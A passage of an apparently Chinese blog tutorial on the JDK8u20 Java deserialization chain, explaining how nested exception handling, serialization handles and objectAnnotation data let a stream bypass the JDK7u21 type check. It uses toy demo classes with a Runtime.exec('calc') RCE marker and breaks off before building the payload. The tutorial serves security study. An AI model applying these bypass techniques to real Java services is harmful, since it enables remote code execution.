










## 衔接上文

JDK8u20其实就是针对JDK7u21反序列化的绕过

紧接着上篇的 https://wanth3f1ag.top/2025/09/09/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96jdk7u21%E5%8E%9F%E7%94%9F%E9%93%BE/ 来讨论一下，在7u21的修复中是通过在readObject中对type类型进行检测，如果不是AnnotationType类型就抛出异常

我们看一下AnnotationInvocationHandler#readObject()方法



 可以看到在进行类型判断之前就调用了defaultReadObject()初步恢复AnnotationInvocationHandler对象，但是由于后续会抛出异常导致我们整个反序列化中断，我们不妨大胆的猜想，我们是否可以在抛出异常之后使得程序能正常的执行呢？

答案是可以的，这里就涉及到JDK8u20的核心原理——异常抛出逃逸

## 影响版本

jdk7u21（不包含）至jdk8u20（包含）

把环境换一下，我这里选的是8u20的

## 异常处理

在我们编写和运行程序的时候往往都有可能会出现各种各样的错误，而一个健壮的java程序需要能处理各种各样的错误，异常处理并不是能让出错消失，而是以一种更合适和方便的方式去处理我们在运行时出现的异常

所以在处理错误的时候通常使用`try...catch`语句，把可以产生异常的代码放入try语句中，然后用catch去捕获对应的`Exception`及其子类。这样一来，在代码运行时候出现异常的时候，就会从上到下依次匹配`catch`语句，当匹配到某个`catch`的时候就会执行catch代码块抛出异常，从而继续执行我们的代码。

而jdk7u21的修复中正是利用了这一点抛出异常导致代码终止

那如果是Try-catch嵌套呢？

### Try-catch嵌套demo

我们写几个demo测试一下

```java
package SerializeChains.Chains8u20;

public class Test {
    public static void main(String[] args) {
        try {
            System.out.println("Start Demo!");
            try {
                int a = 1/0;
            }catch (Exception e) {
                System.out.print("Enter the inner code!\n");
            }
            System.out.println("continue!");
        }catch (Exception e) {
        }
        System.out.print("Enter the outer code!\n");
    }
}

```



可以看到如果内层try没有抛出异常的代码，在内层`try/catch`语句捕获异常后，此时代码并不会中断执行而是继续跳出内层try执行外部try代码以及最外层代码

如果我们在内部try加上抛出异常呢？



可以看到这里外层的try后面的continue没有输出，也就是说当内部有异常抛出的时候外层的try后续的代码也会终止，但是最外层的代码继续执行

但是为什么这里没有看到内层try抛出的异常信息呢？是被外层的catch捕获了？我们尝试把异常抛出试试



还真是！外层catch会把内层抛出的异常捕获，那么也就能理解到为什么外层try后面的语句不会执行了

从上面的分析可以得出：当存在嵌套try-catch结构时，内部的catch如果抛出一个异常，那么外部的catch也会去捕获该异常。但是如果外部捕获的异常不抛出的话，那么整个程序并不会终止运行

## 序列化的两个机制

### 引用机制

> [!IMPORTANT]
>
> **对象序列化写入规则**
>
> - 对象、数组、类、字符串等都会被序列化到字节流中。
> - 每个对象都有 **元数据描述**（类名、字段信息、数组长度等）。
> - 每个对象写入字节流时，都会被赋予一个 **唯一引用标识（Handle）**。
>
> **Handle 的作用**
>
> - **引用管理**：保证同一个对象在流中重复写入时，第二次及之后写入的是引用，而不是重复序列化完整对象。
> - **反向引用**：当序列化流中遇到 `TC_REFERENCE` 标记时，会根据 Handle 找到之前写入的对象并复用。
>
> **Handle 编号规则**
>
> - 起始值：`0x7E0000`（十六进制）
> - 每写入一个新对象，Handle 自动加 1
> - 如果执行 `ObjectOutputStream.reset()` → 序列化缓存清空，Handle 重新从 `0x7E0000` 开始

举个例子

```java
package SerializeChains.Chains8u20;

import java.io.*;

public class Test implements Serializable {
    private static final long serialVersionUID = 100L;
    public static int num = 0;
    private void readObject(ObjectInputStream input) throws Exception {
        input.defaultReadObject();
    }
    public static void main(String[] args) throws IOException {
        Test t = new Test();
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("test"));
        out.writeObject(t);
        out.writeObject(t); //第二次写入
        out.close();
    }
}
```

将序列化后的数据用SerializationDumper看一下

```java
E:\java\javatools\SerializationDumper\SerializationDumper-master>java -jar SerializationDumper.jar -r E:\java\JavaSec\JavaSerialize\test
    
STREAM_MAGIC - 0xac ed	//标准的Java序列化流
STREAM_VERSION - 0x00 05	//序列化协议版本号
Contents
  TC_OBJECT - 0x73	//第一个对象，0x73表示一个新的 对象实例
    TC_CLASSDESC - 0x72	//类描述信息
      className	//类名
        Length - 31 - 0x00 03	//长度为3
        Value - SerializeChains.Chains8u20.Test - 0x53657269616c697a65436861696e732e436861696e73387532302e54657374	//名字为exp
      serialVersionUID - 0x00 00 00 00 00 00 00 64	//
      newHandle 0x00 7e 00 00	//给类描述分配引用句柄
      classDescFlags - 0x02 - SC_SERIALIZABLE	//标记该类实现了Serializable接口
      fieldCount - 0 - 0x00 00	//类中没有可序列化实例字段
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 01	//第一次写入对象实例 t 分配的 对象句柄
    classdata	//对象字段数据
      SerializeChains.Chains8u20.Test
        values
  TC_REFERENCE - 0x71	//引用对象
    Handle - 8257537 - 0x00 7e 00 01	//指向第一次写入的对象实例的对象句柄
```

可以看到在第二次序列化对象后，序列化流中出现了一个`TC_REFERENCE`，并且handle指向第一个对象实例

那反序列化的时候是如何处理引用对象的呢？

跟进`ObjectInputStream#readObject()->ObjectInputStream#readObject0()`



进入readHandle方法

```java
    private Object readHandle(boolean unshared) throws IOException {
        if (bin.readByte() != TC_REFERENCE) {
            throw new InternalError();
        }
        passHandle = bin.readInt() - baseWireHandle;
        if (passHandle < 0 || passHandle >= handles.size()) {
            throw new StreamCorruptedException(
                String.format("invalid handle value: %08X", passHandle +
                baseWireHandle));
        }
        if (unshared) {
            // REMIND: what type of exception to throw here?
            throw new InvalidObjectException(
                "cannot read back reference as unshared");
        }

        Object obj = handles.lookupObject(passHandle);
        if (obj == unsharedMarker) {
            // REMIND: what type of exception to throw here?
            throw new InvalidObjectException(
                "cannot read back reference to unshared object");
        }
        return obj;
    }
```

这里会从字节流中读取读取一个字节检查是否是TC_REFERENCE，是的话就将对象句柄和基准句柄的偏移量赋值给passHandle并检查是否在范围内，随后传入lookupObject中

```java
        Object lookupObject(int handle) {
            return (handle != NULL_HANDLE &&
                    status[handle] != STATUS_EXCEPTION) ?
                entries[handle] : null;
        }
```

如果引用的`handle`不为空、该对象反序列化没有发生异常（`status[handle] != STATUS_EXCEPTION`），那么就返回给定`handle`的引用对象

最后检查对象是否是unshared对象，是的话抛出异常，最后返回对象

也就是说，反序列化流程还原到`TC_REFERENCE`的时候，会尝试还原引用的`handle`对象。

### 成员抛弃机制

> [!IMPORTANT]
>
> 在反序列化中，如果当前这个对象中的某个字段并没有在字节流中出现，则这些字段会使用类中定义的默认值，如果这个值出现在字节流中，**但是并不属于对象，则抛弃该值，但是如果这个值是一个对象的话，那么会为这个值分配一个 Handle。**

在序列化过程中，有几类成员不会被序列化，会被抛弃掉：

- `transient`修饰的成员

如果某个字段被`transient`修饰，那么在序列化的时候就会被忽略

反序列化的时候其中的某些字段就会被设置为默认值：

对象引用：`null`

数值型：`0` 或 `0.0`

布尔型：`false`

- `static`静态成员

静态变量表示该成员属于类本身而不属于某个实例化对象，所以在序列化的时候不会保留他们的值

反序列化的时候静态成员的值取决于当前类加载器中的类变量值，而不是序列化时的值

- 父类的`Serializable`成员

如果一个类实现了`Serializable`接口而他的父类没有实现，那么父类的字段就不会被序列化

反序列化的时候，父类字段会调用父类的无参构造方法来初始化

## 思路从何而来

假设我们存在两个类`AnnotationInvocationHandler`和`BeanContextSupport`，源码内容如下

AnnotationInvocationHandler.java

```java
package SerializeChains.Chains8u20;

import java.io.ObjectInputStream;
import java.io.Serializable;

public class AnnotationInvocationHandler implements Serializable {
    private static final long serialVersionUID = 10L;
    private int zero;
    public AnnotationInvocationHandler(int zero) {
        this.zero = zero;
    }
    public void exec(String cmd) throws Exception {
        Process shell = Runtime.getRuntime().exec(cmd);
    }
    private void readObject(ObjectInputStream in) throws Exception {
        in.defaultReadObject();
        if (zero == 0) {
            try{
                double result = 1/this.zero;
            }catch(Exception e){
                throw new Exception("Hacker get out!!!");
            }
        }else{
            throw new Exception("Your number is zero!!!");
        }
    }
}
```

BeanContextSupport.java

```java
package SerializeChains.Chains8u20;

import java.io.ObjectInputStream;
import java.io.Serializable;

public class BeanContextSupport implements Serializable {
    private static final long serialVersionUID = 20L;
    private void readObject(ObjectInputStream in) throws Exception {
        in.defaultReadObject();
        try{
            in.readObject();
        }catch(Exception e){
            return;
        }
    }
}
```

当我们传入AnnotationInvocationHandler构造方法中的zero为0时，如何在序列化结束时调用AnnotationInvocationHandler#exec()达到RCE呢？

我们先测试一下设置zero为0并在反序列化后直接调用exec

```java
package SerializeChains.Chains8u20;

import java.io.*;

public class Test implements Serializable {
    public static void main(String[] args) throws Exception {
        AnnotationInvocationHandler annotationInvocationHandler = new AnnotationInvocationHandler(0);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("Test1"));
        oos.writeObject(annotationInvocationHandler);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("Test1"));
        AnnotationInvocationHandler annotationInvocationHandler2 = (AnnotationInvocationHandler) ois.readObject();
        annotationInvocationHandler2.exec("calc");
    }
}
```



可以看到由于zero为0所以在try的除法中result的分母为0导致抛出了异常

我们用工具看看刚刚生成的序列化字节流

```java
E:\java\javatools\SerializationDumper\SerializationDumper-master>java -jar SerializationDumper.jar -r E:\java\JavaSec\JavaSerialize\Test1

STREAM_MAGIC - 0xac ed	//序列化标志
STREAM_VERSION - 0x00 05	//序列化版本
Contents
  TC_OBJECT - 0x73	//一个类实例化对象
    TC_CLASSDESC - 0x72	//类描述信息开始
      className	//当前对象的类全名信息
        Length - 54 - 0x00 36	//表示当前对象的类全名信息长度是54
        Value - SerializeChains.Chains8u20.AnnotationInvocationHandler - 	0x53657269616c697a65436861696e732e436861696e73387532302e416e6e6f746174696f6e496e766f636174696f6e48616e646c6572	//类全名信息的内容
      serialVersionUID - 0x00 00 00 00 00 00 00 0a	//定义了一个serialVersionUID的值为10L
      newHandle 0x00 7e 00 00	//给类描述分配一个handle
      classDescFlags - 0x02 - SC_SERIALIZABLE	//表示序列化的时候使用的是java.io.Serializable
      fieldCount - 1 - 0x00 01	//表示成员属性个数为1
      Fields	//所有字段的描述信息
        0:	//第一个字段的描述信息
          Int - I - 0x49	//数据类型是int
          fieldName	//表示字段名信息
            Length - 4 - 0x00 04	//字段名长度为4
            Value - zero - 0x7a65726f	//字段值为zero
      classAnnotations//表示和类相关的Annotation的描述信息，这里的数据值一般是由ObjectOutputStream的annotateClass()方法写入的，但由于annotateClass()方法默认为空，所以classAnnotations后一般会设置TC_ENDBLOCKDATA标识
        TC_ENDBLOCKDATA - 0x78
      superClassDesc	//表示父类的描述符信息
        TC_NULL - 0x70	//表示当前对象是一个空引用
    newHandle 0x00 7e 00 01	//给对象分配一个handle
    classdata	//类数据内容
      SerializeChains.Chains8u20.AnnotationInvocationHandler
        values
          zero
            (int)0 - 0x00 00 00 00
```

根据序列化的原理，反序列化的时候会从上往下读取序列化内容进行还原数据对象

那如果我们在数据中传入一段源码中没有的数据，反序列化会发生什么呢？

基于引用机制，我们可以利用objectAnnotation

继续用引用机制中的例子

```java
package SerializeChains.Chains8u20;

import java.io.*;

public class Test implements Serializable {
    private static final long serialVersionUID = 100L;
    public static int num = 0;
    private void readObject(ObjectInputStream input) throws Exception {
        input.defaultReadObject();
        System.out.println("Hello World");
    }
    private void writeObject(ObjectOutputStream output) throws IOException {
        output.defaultWriteObject();
        output.writeObject("Hello");
        output.writeUTF("This is a test");
    }
    public static void main(String[] args) throws IOException {
        Test t = new Test();
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("testNew"));
        out.writeObject(t);
        out.writeObject(t); //第二次写入
        out.close();
    }
}
```

在这里我们重写了writeObject方法，利用writeObject方法和writeUTF方法分别写入Hello对象和This is a test字符串

看一下序列化字节流内容



可以看到序列化信息发生了改变

```java
原先的
classDescFlags - 0x02 - SC_SERIALIZABLE
现在的
classDescFlags - 0x03 - SC_WRITE_METHOD | SC_SERIALIZABLE
```

并且数据内容也发生了改变

```
原先的
classdata
      SerializeChains.Chains8u20.Test
        values
现在的
classdata
      SerializeChains.Chains8u20.Test
        values
        objectAnnotation
          TC_STRING - 0x74
            newHandle 0x00 7e 00 02
            Length - 5 - 0x00 05
            Value - Hello - 0x48656c6c6f
          TC_BLOCKDATA - 0x77
            Length - 16 - 0x10
            Contents - 0x000e5468697320697320612074657374
          TC_ENDBLOCKDATA - 0x78
```

在类数据的下方出现了objectAnnotation标识的内容段，这些内容段会在反序列化的时候被还原

但是这是为什么呢？

第一点：`SC_WRITE_METHOD`标识标识该类自定义了writeObject方法，如果一个可序列化的类重写了`writeObject`方法，而且向字节流写入了一些额外的数据，那么会设置`SC_WRITE_METHOD`标识

第二点：`objectAnnotation`是额外的数据，在Java序列化规范中，每个类的序列化描述后面允许跟着一些额外的数据，这些数据通常来自自定义的序列化方法writeObject中通过writeObject、writeBytes等方法写入

`objectAnnotation`段中可包含的数据类型有以下几类

**对象类型标记（Object）**

- 任何合法的 Java 序列化对象，比如：
  - `TC_STRING (0x74)` → 字符串对象
  - `TC_OBJECT (0x73)` → 普通对象
  - `TC_ARRAY (0x75)` → 数组
  - `TC_REFERENCE (0x71)` → 对之前写入对象的引用
- 这些都是通过 `ObjectOutputStream.writeObject()` 写入的。

**块数据（BlockData）**

- `TC_BLOCKDATA (0x77)` → 一段字节数据，长度 1–255 字节
- `TC_BLOCKDATALONG (0x7A)` → 长度超过 255 的字节数据
- 这是通过 `ObjectOutputStream.writeBytes()`, `writeInt()`, 等低级方法写入的原始二进制。

**结束标志**

- `TC_ENDBLOCKDATA (0x78)` → 表示 `objectAnnotation` 段结束。

但是虽然能将数据写入，但是他仅仅是添加在classdata的objectAnnotation标识部分，而不会修改原来的可序列化类本身的内容，并且在常规情况下我们也不可能直接去重写该类的wrtieObject方法，所以也就没法添加objectAnnotation部分

但是真的没有办法了吗？有的兄弟有的

## 测试一下

我们需要弄清楚一个问题：

是先序列化`AnnotationInvocationHandler`类然后向其中插入`BeanContextSupport`对象，还是先序列化`BeanContextSupport`类然后向其中插入`AnnotationInvocationHandler`对象？

基于上面对抛出异常的情况来看，我们需要的是不终止反序列化进程的情况下取得反序列化后的类对象

所以我们要先序列化一个`BeanContextSupport`对象然后向其中插入`AnnotationInvocationHandler`对象，这样在`BeanContextSupport`遍历内部成员的时候就会触发`AnnotationInvocationHandler`反序列化逻辑

拿刚刚《思路从何而来》中的两个类进行测试

先序列化`BeanContextSupport`并用SerializationDumper工具看一下

```java
E:\java\javatools\SerializationDumper\SerializationDumper-master>java -jar SerializationDumper.jar -r E:\java\JavaSec\JavaSerialize\BeanContext.ser

STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 45 - 0x00 2d
        Value - SerializeChains.Chains8u20.BeanContextSupport - 0x53657269616c697a65436861696e732e436861696e73387532302e4265616e436f6e74657874537570706f7274
      serialVersionUID - 0x00 00 00 00 00 00 00 14
      newHandle 0x00 7e 00 00
      classDescFlags - 0x02 - SC_SERIALIZABLE
      fieldCount - 0 - 0x00 00
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 01
    classdata
      SerializeChains.Chains8u20.BeanContextSupport
        values
```

然后反序列化`AnnotationInvocationHandler`并用SerializationDumper工具看一下

```java
E:\java\javatools\SerializationDumper\SerializationDumper-master>java -jar SerializationDumper.jar -r E:\java\JavaSec\JavaSerialize\annotationInvocationHandler

STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 54 - 0x00 36
        Value - SerializeChains.Chains8u20.AnnotationInvocationHandler - 0x53657269616c697a65436861696e732e436861696e73387532302e416e6e6f746174696f6e496e766f636174696f6e48616e646c6572
      serialVersionUID - 0x00 00 00 00 00 00 00 0a
      newHandle 0x00 7e 00 00
      classDescFlags - 0x02 - SC_SERIALIZABLE
      fieldCount - 1 - 0x00 01
      Fields
        0:
          Int - I - 0x49
          fieldName
            Length - 4 - 0x00 04
            Value - zero - 0x7a65726f
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 01
    classdata
      SerializeChains.Chains8u20.AnnotationInvocationHandler
        values
          zero
            (int)0 - 0x00 00 00 00
```

接下来我们利用`objectAnnotation`插入`AnnotationInvocationHandler`对象

```java
